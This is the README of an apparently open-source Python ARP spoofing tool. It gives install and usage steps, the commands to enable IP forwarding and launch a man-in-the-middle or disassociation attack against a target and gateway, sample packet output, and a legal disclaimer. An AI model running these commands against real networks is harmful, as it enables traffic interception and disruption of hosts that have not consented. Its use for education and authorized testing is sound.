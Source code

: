 # Python 3 ARP Spoofing Tool

[![Python Version](https://img.shields.io/badge/python-3.x-blue?style=for-the-badge&logo=python)](https://github.com/EONRaider/Packet-Sniffer/)
[![Open Source? Yes!](https://img.shields.io/badge/Open%20Source%3F-Yes!-green?style=for-the-badge&logo=appveyor)](https://github.com/EONRaider/Packet-Sniffer/)
[![License](https://img.shields.io/github/license/EONRaider/Packet-Sniffer?style=for-the-badge)](https://github.com/EONRaider/Packet-Sniffer/blob/master/LICENSE)

[![Reddit](https://img.shields.io/reddit/user-karma/combined/eonraider?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Keybase](https://img.shields.io/badge/keybase-eonraider-blue?style=flat-square&logo=keybase)](https://keybase.io/eonraider)
[![Twitter](https://img.shields.io/twitter/follow/eon_raider?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

A pure-Python ARP Cache Poisoning (a.k.a. "ARP Spoofing") tool that leverages a low-level 
assembly of Ethernet II frames and ARP packets.

This application maintains no dependencies on third-party modules and can be 
run by any Python 3.x interpreter.

## Installation

Simply clone this repository with `git clone` and execute the `arpspoof.py` file 
as described in the following **Usage** section.
```
user@host:~/DIR$ git clone https://github.com/EONRaider/Arp-Spoofer.git
```

## Usage
```
arpspoof.py [-h] (--attackermac MAC | --disassociate) --gatemac MAC --targetmac MAC 
            --gateip IP --targetip IP interface

Execute ARP Cache Poisoning attacks (a.k.a "ARP Spoofing") on local networks.

positional arguments:
  interface          Interface on the attacker machine to send packets from.

optional arguments:
  -h, --help         show this help message and exit
  --gatemac MAC      MAC address of the NIC associated to the gateway.
  --targetmac MAC    MAC address of the NIC associated to the target.
  --gateip IP        IP address currently assigned to the gateway.
  --targetip IP      IP address currently assigned to the target.
  --interval TIME    Time in between each transmission of spoofed ARP packets 
                     (defaults to 0.5 seconds).
  --disassociate     Execute a disassociation attack in which a randomized MAC 
                     address is set for the attacker machine, effectively making 
                     the target host send packets to a non-existent gateway.
```


## Running the Application

- Execute the following command with administrative privileges in order to enable 
forwarding of IPv4 packets through the attacker machine. This is a temporary solution 
meant to be reset upon the next reboot (for a permanent solution check [this guide](https://linuxhint.com/enable_ip_forwarding_ipv4_debian_linux/)):

  `user@host:~$ sudo sysctl -w net.ipv4.ip_forward=1`

- Example command in which we initiate an attack against a given target machine 
and gateway (the `eth0` interface is the one the attacker uses to send spoofed 
packets in this example):
  ```
  user@host:~$ sudo python3 arpspoof.py eth0 \
  --gateip 10.0.1.1 --gatemac 52:54:00:45:6a:69 \
  --targetip 10.0.1.6 --targetmac 08:00:27:83:dc:02
  
  [+] ARP Spoofing attack initiated. Press Ctrl-C to abort.
  ```
- Traffic displayed by [Network Packet Sniffer](https://github.com/EONRaider/Packet-Sniffer)
as the attack initiated above takes place:
  ```
  [>] Packet #1 at 15:15:03:
      [+] MAC ......08:00:27:1f:6a:67 -> 52:54:00:45:6a:69
      [+] ARP ...............10.0.1.6 -> Is at 08:00:27:1f:6a:67
  [>] Packet #2 at 15:15:03:
      [+] MAC ......08:00:27:1f:6a:67 -> 08:00:27:83:dc:02
      [+] ARP ...............10.0.1.1 -> Is at 08:00:27:1f:6a:67
  ```

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality, 
for engaging targets without prior mutual consent is illegal. **It is 
the end-user's responsibility to obey all applicable local, state 
and federal laws.**

Developers assume **no liability** and are not 
responsible for misuses or damages caused by any code contained 
in this repository in any event that, accidentally or otherwise, it comes to 
be utilized by a threat agent or unauthorized entity as a means to compromise the security, privacy, 
confidentiality, integrity and/or availability of systems and their associated 
 resources by leveraging the exploitation of known or unknown vulnerabilities present 
in said systems, including, but not limited to, the implementation of security controls, 
human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those circumstances 
directly related to **educational environments** or **authorized penetration testing 
engagements** whose declared purpose is that of finding and mitigating vulnerabilities 
in systems, limiting their exposure to compromises and exploits employed by malicious 
agents as defined in their respective threat models.

